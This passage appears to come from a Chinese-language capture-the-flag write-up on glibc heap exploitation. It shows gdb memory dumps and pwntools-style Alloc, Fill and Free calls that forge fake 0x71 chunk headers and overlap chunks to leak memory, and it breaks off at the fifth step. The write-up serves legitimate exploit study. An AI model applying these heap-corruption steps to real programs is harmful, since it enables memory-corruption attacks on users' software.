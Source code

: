 ```
0x56144ab7e000:	0x0000000000000000	0x0000000000000071
0x56144ab7e010:	0x6161616161616161	0x6161616161616161
0x56144ab7e020:	0x6161616161616161	0x6161616161616161
0x56144ab7e030:	0x6161616161616161	0x6161616161616161
0x56144ab7e040:	0x6161616161616161	0x6161616161616161
0x56144ab7e050:	0x6161616161616161	0x6161616161616161
0x56144ab7e060:	0x6161616161616161	0x6161616161616161
0x56144ab7e070:	0x0000000000000000	0x0000000000000071  --> 已修改为0x71
0x56144ab7e080:	0x0000000000000000	0x0000000000000000
0x56144ab7e090:	0x0000000000000000	0x0000000000000000
0x56144ab7e0a0:	0x0000000000000000	0x0000000000000000
0x56144ab7e0b0:	0x0000000000000000	0x0000000000000000
```
* Third Step: 申请`small chunk`
```
Alloc(0x100)
0x56144ab7e000:	0x0000000000000000	0x0000000000000071
0x56144ab7e010:	0x6161616161616161	0x6161616161616161
0x56144ab7e020:	0x6161616161616161	0x6161616161616161
0x56144ab7e030:	0x6161616161616161	0x6161616161616161
0x56144ab7e040:	0x6161616161616161	0x6161616161616161
0x56144ab7e050:	0x6161616161616161	0x6161616161616161
0x56144ab7e060:	0x6161616161616161	0x6161616161616161
0x56144ab7e070:	0x0000000000000000	0x0000000000000071
0x56144ab7e080:	0x0000000000000000	0x0000000000000000
0x56144ab7e090:	0x0000000000000000	0x0000000000000000
0x56144ab7e0a0:	0x0000000000000000	0x0000000000000000
0x56144ab7e0b0:	0x0000000000000000	0x0000000000000000
0x56144ab7e0c0:	0x0000000000000000	0x0000000000000111 --> chunk2 header
0x56144ab7e0d0:	0x0000000000000000	0x0000000000000000
0x56144ab7e0e0:	0x0000000000000000	0x0000000000000000
```
* Fourth Step: 破坏`chunk2 header`, 最后目的是释放`chunk2`
```
Fill(2, 0x20, 'c' * 0x10 + p64(0) + p64(0x71)) --> fake chunk header
Free(1)
Alloc(0x60)
0x56144ab7e000:	0x0000000000000000	0x0000000000000071
0x56144ab7e010:	0x6161616161616161	0x6161616161616161
0x56144ab7e020:	0x6161616161616161	0x6161616161616161
0x56144ab7e030:	0x6161616161616161	0x6161616161616161
0x56144ab7e040:	0x6161616161616161	0x6161616161616161
0x56144ab7e050:	0x6161616161616161	0x6161616161616161
0x56144ab7e060:	0x6161616161616161	0x6161616161616161
0x56144ab7e070:	0x0000000000000000	0x0000000000000071
0x56144ab7e080:	0x0000000000000000	0x0000000000000000
0x56144ab7e090:	0x0000000000000000	0x0000000000000000
0x56144ab7e0a0:	0x0000000000000000	0x0000000000000000
0x56144ab7e0b0:	0x0000000000000000	0x0000000000000000
0x56144ab7e0c0:	0x0000000000000000	0x0000000000000000
0x56144ab7e0d0:	0x0000000000000000	0x0000000000000000
0x56144ab7e0e0:	0x0000000000000000	0x0000000000000071
```
* Fifth Step: 修复`chunk2 header`, `free` 它
```
Fill(1, 0x40 + 0x10, 'b' * 0x60 + p64(0) + p64(0x111)) --> 修复chunk2
Free(2)
Dump(1)
0x56144ab7e000:	0x0000000000000000	0x0000000000000071
0x56144ab7e010:	0x6161616161616161	0x6161616161616161
0x56144ab7e020:	0x6161616161616161	0x6161616161616161
0x56144ab7e030:	0x6161616161616161	0x6161616161616161
0x56144ab7e040:	0x6161616161616161	0x6161616161616161
0x56144ab7e050:	0x6161616161616161	0x6161616161616161
```
